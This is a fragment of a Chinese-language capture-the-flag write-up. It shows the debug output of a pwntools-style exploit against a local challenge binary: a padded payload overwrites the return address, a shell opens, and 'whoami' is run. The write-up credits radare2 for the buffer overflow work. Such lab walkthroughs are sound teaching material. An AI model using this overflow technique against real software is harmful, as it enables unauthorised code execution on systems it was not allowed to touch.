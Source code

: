 然后用python解释器运行这个脚本就可以完成pwn

```python
root@Aurora:/home/code/pwn/challenge/1 # ./a.py
[+] Starting local process './a': pid 10160
[DEBUG] Sent 0x31 bytes:
    00000000  61 61 61 61  61 61 61 61  61 61 61 61  61 61 61 61  │aaaa│aaaa│aaaa│aaaa│
    *
    00000020  61 61 61 61  61 61 61 61  62 62 62 62  82 91 04 08  │aaaa│aaaa│bbbb│····│
    00000030  0a                                                  │·│
    00000031
[*] Switching to interactive mode
[DEBUG] Received 0x33 bytes:
    "Hello,I'm dyf.\n"
    '\n'
    'QAQ\n'
    '\n'
    'Do you have something to say?\n'
Hello,I'm dyf.

QAQ

Do you have something to say?
$ 
```

按照以往的传统，我们都会输入一句

```bash
>whoami
room
```

那么一次利用radare2的一次缓冲区溢出漏洞利用就完成了。
